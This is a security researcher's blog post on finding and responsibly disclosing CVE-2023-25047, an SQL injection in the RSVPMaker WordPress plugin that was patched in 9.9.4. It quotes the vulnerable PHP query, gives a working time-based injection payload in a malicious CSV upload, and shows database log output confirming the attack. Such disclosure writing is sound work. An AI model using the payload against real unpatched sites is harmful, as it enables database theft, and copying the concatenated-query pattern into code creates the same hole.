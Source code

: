```yaml
---
layout: post
title:  "How I found CVE-2023-25047"
date:   2023-02-19
categories: vulnerability-research wordpress cve
description: From setup environment to exploit the vuln
tags: wp-cve
---
```


# Background

This is my first 0day on wordpress plugin thanks to CCUG (Ravi & Aldo) for encourage me to do research on wordpress plugin. So what is RSVPMaker? 'RSVPMaker is an event and email marketing tool. For events, it handles scheduling, event marketing, and RSVP tracking. You can send email to small lists through your web server or take advantage of the integrations with Postmark and Mailchimp to scale up.'. I been curious about this plugin since there's lot of SQL query inside the plugin code. Basically the plugin are able to send email to subscriber mail and manage your event.  

# Setup Environment

Before we do debugging, we can use docker to create our wordpress environment, so we can debug the wordpress plugin easily while doing static analysis.

{% highlight yml %}
version: '3.3'

services:
   db:
     image: mariadb
     volumes:
       - db_data:/var/lib/mysql
     restart: always
     environment:
       MYSQL_ROOT_PASSWORD: somewordpress
       MYSQL_DATABASE: wordpress
       MYSQL_USER: wordpress
       MYSQL_PASSWORD: wordpress

   wordpress:
     depends_on:
       - db
     image: wordpress:latest
     ports:
       - "8000:80"
     restart: always
     environment:
       WORDPRESS_DB_HOST: db:3306
       WORDPRESS_DB_USER: wordpress
       WORDPRESS_DB_PASSWORD: wordpress
       WORDPRESS_DB_NAME: wordpress
       
volumes:
    db_data: {}
{% endhighlight %}

build the image by using command `docker-compose up`

# Debugging Process

Enable the query log by modifying mysql config `/etc/mysql/my.cnf` then add config below

    general_log_file = /var/log/mysql/mysql.log
    general_log = 1

then we need to restart the process database `docker restart wp-db-1`, now we can input some unique string then grep on the query log `/var/log/mysql/mysql.log` 

<img src='/images/CVE-2023-25047/1.png' />

We can also modify the source code, like adding comment in order to find the right sql query are executed.

<img src='/images/CVE-2023-25047/2.png' />

# Exploitation

I found that the `RSVP Maker <= 9.9.3` is vulnerable to SQL Injection. This allows an attacker to get sensitive information from the database.


rsvpmaker-util.php
{% highlight php %}
function rsvpmail_is_problem($email) {
	if(strpos($email,'example.com'))
		return $email.' : example.com blocked';
	global $wpdb;
	$table = $wpdb->prefix . "rsvpmailer_blocked";
	$email = trim(strtolower($email));
	$sql = "SELECT code from $table where email='".$email."' AND (code='unsubscribed' OR code LIKE 'blocke%')";
	$code = $wpdb->get_var($sql);
	if(empty($code))
		$code = apply_filters('rsvpmail_is_problem',$code,$email);
	if($code) {
		rsvpmaker_debug_log($email.': '.$code.': '.$sql,'rsvpmail_is_problem');
		return $email.': '.$code;
	}
}
{% endhighlight %}

from the source code above, it shows that

1. we can controll $email. 
2. input is not sanitized properly on the `rsvpmail_is_problem` function 
3. This function is called everywhere on several files

after uploading malicious csv file on `wp-admin/admin.php?page=rsvpmaker_guest_list` I found the query is not properly sanitized and can be used to trigger SQL Injection via `$email`

<img src='/images/CVE-2023-25047/3.png' />

we can test the vuln by crafting our malicious csv file 

malicous.csv
{% highlight csv %}

arsalan13@gmail.com' UNION SELECT SLEEP(10)-- vGHK, 'test0 firstname, 'test0 seccond name
%27awtasest@gmail.com, %27tost2 firstname, %27tost seccond name

{% endhighlight %}

we can confirm is the vuln on sql query log and network tools

    root@89d32a5cf078:/var/log/mysql# cat mysql.log | grep "arsalan13@gmail.com"
    736 Query    SELECT * FROM wp_rsvpmaker_guest_email where email LIKE 'arsalan13@gmail.com\' union select sleep(10)-- vghk'
    736 Query    INSERT INTO wp_rsvpmaker_guest_email SET email='arsalan13@gmail.com\' union select sleep(10)-- vghk', first_name='\'test0 firstname', last_name='\'test0 seccond name', active=1
    736 Query    SELECT code from wp_rsvpmailer_blocked where email='arsalan13@gmail.com' union select sleep(10)-- vghk' AND (code='unsubscribed' OR code LIKE 'blocke%')

<img src='/images/CVE-2023-25047/4.png' />

it's already fixed on RSVPmaker 9.9.4, input sanitized are added on `rsvpmail_is_problem()`

<img src='/images/CVE-2023-25047/5.png' />

# Status

    7 February 2023 Report submitted on Patchstack
    7 February 2023 Bug validated by Patchstack team
    7 February 2023 CVE ID assigned
    8 February 2023 Developer release patch on 9.9.4 <a href="https://github.com/davidfcarr/rsvpmaker/commit/427eb228ca46f42ed0ad4165497065aa280f3194">link to commit </a>  
    13 February 2023 Report published <a href='https://patchstack.com/database/vulnerability/rsvpmaker/wordpress-rsvpmaker-plugin-9-9-3-sql-injection-vulnerability-2'> link to report </a>

Thanks Patchstack ;)